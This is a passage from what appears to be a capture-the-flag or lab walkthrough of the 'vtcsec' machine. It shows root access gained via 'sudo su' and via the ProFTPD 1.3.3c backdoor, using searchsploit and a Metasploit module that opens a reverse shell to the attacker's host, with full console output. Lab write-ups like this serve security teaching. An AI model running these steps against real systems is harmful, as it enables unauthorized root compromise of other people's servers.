 We can see that the user is added in the <i>sudoers</i> group. Therefore we can directly run <i>sudo su</i> to get the root shell.

```r
marlinspike@vtcsec:~$ sudo su
[sudo] password for marlinspike: 
root@vtcsec:/home/marlinspike# id
uid=0(root) gid=0(root) groups=0(root)
root@vtcsec:/home/marlinspike# 
```

## 3. ProFTPD 1.3.3c exploit

As mentioned earlier, there is a quick and easy method of gaining access to this machine as the root user via the RCE vulnerability within the ProFTPD 1.3.3c service running on Port 21 of the target.

```r
m1m3@kali:~$ searchsploit ProFTPD 1.3.3c

------------------------------------------------------------------- ----------------------------------------
 Exploit Title                         |  Path
                                       | (/usr/share/exploitdb/)
------------------------------------------------------------------- ----------------------------------------
ProFTPd 1.3.3c - Compromised Source Backdoor Remote Code Execution | exploits/linux/remote/15662.txt
ProFTPd-1.3.3c - Backdoor Command Execution (Metasploit)           | exploits/linux/remote/16921.rb
------------------------------------------------------------------- ----------------------------------------
Shellcodes: No Result
```

As we can see we have a metasploit payload, which will directly spawn a root shell on the target.

```r
msf5 > use exploit/unix/ftp/proftpd_133c_backdoor
msf5 exploit(unix/ftp/proftpd_133c_backdoor) > set RHOST 192.168.1.7
RHOST => 192.168.1.7
msf5 exploit(unix/ftp/proftpd_133c_backdoor) > exploit

[*] Started reverse TCP double handler on 192.168.1.12:4444 
[*] 192.168.1.7:21 - Sending Backdoor Command
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo Pnp4ZfTg3sC6srJr;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket A
[*] A: "Trying: not found\r\nsh: 2: Connected: not found\r\nsh: 3: Escape: not found\r\n"
[*] Matching...
[*] B is input...
[*] Command shell session 2 opened (192.168.1.12:4444 -> 192.168.1.7:45234)

id
uid=0(root) gid=0(root) groups=0(root),65534(nogroup)
python3 -c 'import pty;pty.spawn("/bin/bash")'
root@vtcsec:/# 

```
